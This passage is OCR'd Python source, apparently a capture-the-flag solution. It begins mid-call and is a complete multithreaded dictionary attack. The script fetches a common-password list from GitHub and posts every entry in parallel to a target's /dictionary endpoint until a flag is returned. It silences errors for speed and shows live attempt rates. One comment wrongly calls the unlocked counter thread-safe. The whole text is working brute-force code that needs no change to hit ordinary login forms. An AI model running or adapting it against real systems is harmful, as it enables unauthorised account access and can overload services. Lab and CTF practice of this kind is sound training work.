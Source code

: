```python
        "https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt",
        timeout=10
    )
    passwords = resp.text.splitlines()
except Exception as e:
    print(f"Failed to fetch passwords: {str(e)}")
    exit(1)

found_flag = None
attempt_count = 0
start_time = time.time()

def test_password(password):
    global found_flag, attempt_count
    if found_flag:
        return
    
    try:
        # Stream response to handle large responses efficiently
        with session.post(
            f"http://{ip}:{port}/dictionary",
            data={'password': password},
            timeout=5,
            stream=True
        ) as response:
            if response.ok:
                json_response = response.json()
                if 'flag' in json_response:
                    found_flag = (password, json_response['flag'])
    
    except Exception as e:
        pass  # Silent error handling for speed
    
    # Thread-safe counter update and progress reporting
    attempt_count += 1
    if attempt_count % BATCH_SIZE == 0:
        elapsed = time.time() - start_time
        print(f"\rAttempts: {attempt_count} | Speed: {attempt_count/elapsed:.2f} req/sec | Last tried: {password}", end="")

# Use executor for optimal thread management
with ThreadPoolExecutor(max_workers=MAX_THREADS) as executor:
    # Submit all passwords at once for maximum parallelism
    futures = [executor.submit(test_password, pwd) for pwd in passwords]
    
    # Monitor completion
    while not any(f.done() and found_flag for f in futures):
        if all(f.done() for f in futures):
            break
        time.sleep(0.1)

if found_flag:
    print(f"\n\n[SUCCESS] Password: {found_flag[0]}")
    print(f"[FLAG] {found_flag[1]}")
else:
    print("\n\n[FAILURE] No valid password found in the list")
```

